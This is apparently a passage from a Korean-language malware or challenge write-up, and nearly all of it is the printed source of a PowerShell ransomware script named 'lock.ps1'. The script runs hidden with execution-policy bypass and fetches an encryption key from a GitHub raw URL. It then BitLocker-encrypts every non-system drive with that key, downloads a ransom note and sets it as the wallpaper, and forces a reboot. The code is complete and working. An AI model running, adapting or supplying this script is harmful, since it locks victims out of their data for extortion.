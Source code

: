 <br>

```powershell
# lock.ps1

Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command & { $scriptBlock }" -WindowStyle Hidden
Set-ExecutionPolicy Bypass -Scope LocalMachine -Force
$rawUrl = "https://raw.githubusercontent.com/imnothackerkkk/key/main/secret"; 
$fileContent = Invoke-RestMethod -Uri $rawUrl
$volumes = Get-BitLockerVolume
$osVolume = (Get-WmiObject Win32_OperatingSystem).SystemDrive
$key = ConvertTo-SecureString -String $fileContent -AsPlainText -Force
foreach ($volume in $volumes) {
    if ($volume.MountPoint -ne $osVolume) {
        Enable-BitLocker -MountPoint $volume.MountPoint -EncryptionMethod Aes128 -PasswordProtector $key
	Disable-BitLockerAutoUnlock -MountPoint $volume.MountPoint
        Get-BitLockerVolume -MountPoint $volume.MountPoint
    }
}

$Url1 = "https://raw.githubusercontent.com/imnothackerkkk/key/main/ransomnote.jpg"
$Url2 = "https://raw.githubusercontent.com/imnothackerkkk/key/main/readme.txt"
$desktopPath = [System.Environment]::GetFolderPath("Desktop")
$destinationPath1 = Join-Path -Path $desktopPath -ChildPath "note.jpg"
$destinationPath2 = Join-Path -Path $desktopPath -ChildPath "readme.txt"
Invoke-WebRequest -Uri $Url1 -OutFile $destinationPath1
Invoke-WebRequest -Uri $Url2 -OutFile $destinationPath2
$imageFileName = "note.jpg"
$imagePath = Join-Path -Path $desktopPath -ChildPath $imageFileName
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public class Wallpaper
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@
$SPI_SETDESKWALLPAPER = 20
$SPIF_UPDATEINIFILE = 0x01
$SPIF_SENDCHANGE = 0x02
[Wallpaper]::SystemParametersInfo($SPI_SETDESKWALLPAPER, 0, $imagePath, $SPIF_UPDATEINIFILE -bor $SPIF_SENDCHANGE)
Restart-Computer -Force

```

<br>

이렇게 lock.ps1를 구할 수 있었다.
